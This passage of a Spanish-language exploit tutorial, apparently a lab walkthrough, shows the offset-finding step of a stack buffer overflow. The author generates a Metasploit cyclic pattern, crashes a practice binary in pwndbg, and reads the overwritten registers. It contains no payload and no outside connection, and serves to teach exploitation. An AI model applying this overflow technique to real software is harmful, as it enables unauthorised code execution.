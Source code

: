 ```
------- tip of the day (disable with set show-tips off) -------
GDB's apropos <topic> command displays all registered commands that are related to the given <topic>
pwndbg> 
```

### Comprobacion de desbordamiento de Buffer

En el `host`, generamos una cadena de caracteres diseñada para intentar desbordar el `buffer` de la aplicación. Esto se logra con la herramienta `pattern_create.rb`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
```

Info:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Este patrón se usará como entrada en la aplicación para identificar cómo se maneja el `buffer`.

Ahora llendonos al `GDB` tendremos que ejecutar `run` y meter lo que hemos generado de `400` caracteres, por lo que petara y veremos algo asi:

```
Starting program: /home/kali/Desktop/stack/command_exec 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Escribe la contraseña: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
Estás en modo usuario (key = 63413563)
key debe valer 0xdead para entrar al modo administrador

Program received signal SIGSEGV, Segmentation fault.
0x000055bd7d352288 in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 RAX  0
 RBX  0x7ffd723149d8 ◂— 'Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A'
 RCX  0x7f6f0f686210 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7f6f0f76b710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x55bd7d6242a0 ◂— 'key debe valer 0xdead para entrar al modo administrador\n'
 R8   0
 R9   0xfffffff8
 R10  3
 R11  0x202
 R12  0
 R13  0x7ffd723149e8 ◂— 'm5Am6Am7Am8Am9An0An1An2A'
 R14  0x7f6f0f7c8000 (_rtld_global) —▸ 0x7f6f0f7c92e0 —▸ 0x55bd7d351000 ◂— 0x10102464c457f
 R15  0x55bd7d354dd8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x55bd7d352150 (__do_global_dtors_aux) ◂— endbr64 
 RBP  0x4138634137634136 ('6Ac7Ac8A')
 RSP  0x7ffd723148c8 ◂— 0x3164413064413963 ('c9Ad0Ad1')
 RIP  0x55bd7d352288 (main+239) ◂— ret 
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────
```